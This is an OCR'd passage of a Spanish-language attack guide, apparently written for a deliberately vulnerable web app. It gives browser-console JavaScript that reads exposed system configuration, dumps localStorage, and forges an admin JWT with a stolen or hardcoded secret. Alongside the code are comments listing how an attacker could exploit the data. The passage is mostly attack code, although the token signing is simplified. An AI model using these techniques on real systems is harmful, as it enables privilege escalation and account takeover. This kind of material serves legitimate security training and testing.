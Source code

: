 ```javascript
    console.log("💣 IMPACTO: Con esta información puedes:");
    console.log("   1. Forjar tokens JWT válidos");
    console.log("   2. Identificar cuentas administrativas");
    console.log("   3. Entender la arquitectura del sistema");
    console.log("   4. Planificar ataques más sofisticados");
    
    return config;
  } else {
    console.log("❌ debugAPI no disponible. Intentar métodos alternativos:");
    console.log("   1. Navegar a /system si existe endpoint");
    console.log("   2. Revisar código fuente en DevTools");
    console.log("   3. Interceptar requests de red");
    console.log("   4. Buscar archivos de configuración expuestos");
    
    // Buscar datos en localStorage que puedan revelar configuración
    for (let i = 0; i < localStorage.length; i++) {
      const key = localStorage.key(i);
      const value = localStorage.getItem(key);
      console.log(`📋 localStorage[${key}]:`, value);
    }
  }
};

// Ejecutar acceso a system info
accessSystemInfo();
```

#### **Método 2: Forjado de JWT con Secret Robada**
```javascript
// Una vez obtenida la JWT secret, crear tokens falsos
const createMaliciousToken = () => {
  // Verificar si tenemos acceso a la secret
  let stolenSecret = null;
  
  if (window.debugAPI && window.debugAPI.SYSTEM_CONFIG) {
    stolenSecret = window.debugAPI.SYSTEM_CONFIG.jwt_secret;
  } else if (window.stolenSecret) {
    stolenSecret = window.stolenSecret;
  } else {
    stolenSecret = 'vulnerable-secret-key'; // Secret conocida del código
  }
  
  console.log("🔑 Usando JWT secret:", stolenSecret);
  
  // Crear payload malicioso
  const maliciousPayload = {
    id: 999,
    username: 'super_hacker',
    email: 'hacker@evil.com',
    role: 'admin',
    iat: Math.floor(Date.now() / 1000),
    exp: Math.floor(Date.now() / 1000) + (365 * 24 * 60 * 60) // 1 año
  };
  
  // Simular creación de JWT (versión simplificada como en el código original)
  const header = btoa(JSON.stringify({ alg: 'HS256', typ: 'JWT' }));
  const payload = btoa(JSON.stringify(maliciousPayload));
  const signature = btoa(`signature_with_${stolenSecret}`);
  
  const fakeToken = `${header}.${payload}.${signature}`;
  
  console.log("🚨 TOKEN FALSO CREADO:", fakeToken);
  
```